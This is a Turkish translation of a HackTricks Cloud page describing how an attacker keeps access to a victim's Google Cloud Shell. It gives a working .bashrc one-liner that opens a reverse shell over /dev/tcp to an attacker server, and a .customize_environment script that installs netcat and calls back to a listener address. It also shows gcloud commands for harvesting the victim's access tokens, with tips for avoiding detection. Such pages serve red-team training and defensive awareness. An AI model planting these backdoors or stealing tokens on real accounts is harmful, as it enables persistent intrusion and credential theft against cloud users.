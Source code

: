 # GCP - Cloud Shell Sürekliliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Sürekli Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/) tarayıcınızdan bulut kaynaklarınıza komut satırı erişimi sağlar ve bununla ilgili herhangi bir maliyet yoktur.

Google'ın Cloud Shell'ine **web konsolundan** veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsolun saldırganlar için bazı ilginç yetenekleri vardır:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tamamen kimlik doğrulamalı bir Cloud Shell örneğine erişim sağlar (Hizmet Hesapları, organizasyonun Sahipleri olsa bile erişebilir).
2. Bu örnek, **hiçbir etkinlik gerçekleşmezse en az 120 gün boyunca** ana dizinini koruyacaktır.
3. Bu örneğin etkinliğini **izleme yeteneği yoktur**.

Bu, temelde bir saldırganın kullanıcının ana dizinine bir arka kapı koyabileceği ve kullanıcı her 120 günde bir GC Shell'e bağlandığı sürece, arka kapının hayatta kalacağı ve saldırganın her çalıştırıldığında bir shell alacağı anlamına gelir, sadece şunu yaparak: 

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev dizininde, eğer varsa, kullanıcının **cloud shell**'e eriştiği her seferinde **çalıştırılacak** olan başka bir dosya **`.customize_environment`** adında bulunmaktadır (önceki teknikte olduğu gibi). Kullanıcı "sık sık" cloud shell'i kullandığı sürece kalıcılığı sağlamak için önceki arka kapıyı veya aşağıdaki gibi birini ekleyin:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Kimlik doğrulama gerektiren bir eylem gerçekleştirildiğinde**, kullanıcının tarayıcısında bir onay penceresi açıldığını belirtmek önemlidir. Bu pencere, komut çalışmadan önce kabul edilmelidir. Beklenmedik bir pop-up görünürse, bu şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, bulut shell'den (saldırgan olarak) `gcloud projects list` komutunu çalıştırdığınızda kullanıcı oturumunda görülen pop-up'tır:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ancak, kullanıcı bulut shell'i aktif olarak kullandıysa, pop-up görünmeyecek ve **kullanıcının token'larını toplamak için**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temelde, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarınızı eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (google cloud shell'in ip'sini bildirir)

Ancak daha fazla bilgi bulabilirsiniz [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
